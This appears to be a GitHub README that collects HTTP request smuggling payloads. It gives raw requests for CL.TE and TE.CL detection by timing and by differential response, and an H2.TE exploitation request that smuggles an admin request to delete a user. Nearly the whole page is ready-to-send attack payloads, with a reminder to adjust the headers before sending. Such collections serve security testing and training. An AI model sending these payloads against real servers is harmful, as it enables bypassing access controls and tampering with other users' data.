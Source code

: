 # summary
Usefull payloads about http request smuggling vulnerability.

**Note:** don't forget updating the host, content-length and chunke size before sending request. 

# payloads
## detection
### CL.TE timing technique
```
POST / HTTP/1.1 
Host: vulnerable-website.com 
Transfer-Encoding: chunked 
Content-Length: 4 

1 
A 
X
```

### <span>TE.CL</span> timing technique
```
POST / HTTP/1.1 
Host: vulnerable-website.com 
Transfer-Encoding: chunked 
Content-Length: 6 

0 

X
```

### CL.TE diffrent response techique
```
POST /search HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 49 
Transfer-Encoding: chunked 

e 
q=smuggling&x= 
0 

GET /404 HTTP/1.1 
Foo: x
```

### <span>TE.CL</span> diffrent response technique
```
POST /search HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 4 
Transfer-Encoding: chunked 

7c 
GET /404 HTTP/1.1 
Host: vulnerable-website.com 
Content-Type: application/x-www-form-urlencoded 
Content-Length: 144 

x= 
0
```

## exploitation
### H2.TE
```
POST / HTTP/2
Host: TARGET_HOST
Transfer-Encoding: chunked

0

GET /admin/delete?username=carlos HTTP/1.1
Host: TARGET_HOST
```
